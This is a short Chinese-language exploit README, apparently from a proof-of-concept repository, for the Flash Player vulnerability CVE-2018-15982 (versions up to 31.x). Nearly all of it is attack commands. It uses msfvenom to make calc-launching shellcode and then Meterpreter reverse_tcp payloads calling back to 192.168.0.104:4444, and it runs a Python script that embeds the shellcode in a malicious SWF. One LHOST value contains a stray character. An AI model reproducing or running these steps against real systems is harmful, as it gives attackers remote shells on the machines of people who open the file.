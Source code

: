 # CVE-2018-15982 REC

_影响软件_
+ Flash Player

_影响版本_
+ =< 31.x


## 复现

 _生成弹计算器_
    
    msfvenom -p windows/exec cmd=calc.exe -f raw > 86.bin

    msfvenom -p windows/x64/exec cmd=calc.exe -f raw > 64.bin

    python CVE-2018-15982.py -i 86.bin -I 64.bin -o apt.swf

_生成meterpreter反弹_

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4444 -f raw > 86.bin

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=I192.168.0.104 LPORT=4444 -f raw > 64.bin
    
    
_生成exploit.SWF文件_

    python CVE-2018-15982.py -i 86.bin -I 64.bin -o 你喜欢的文件名.swf




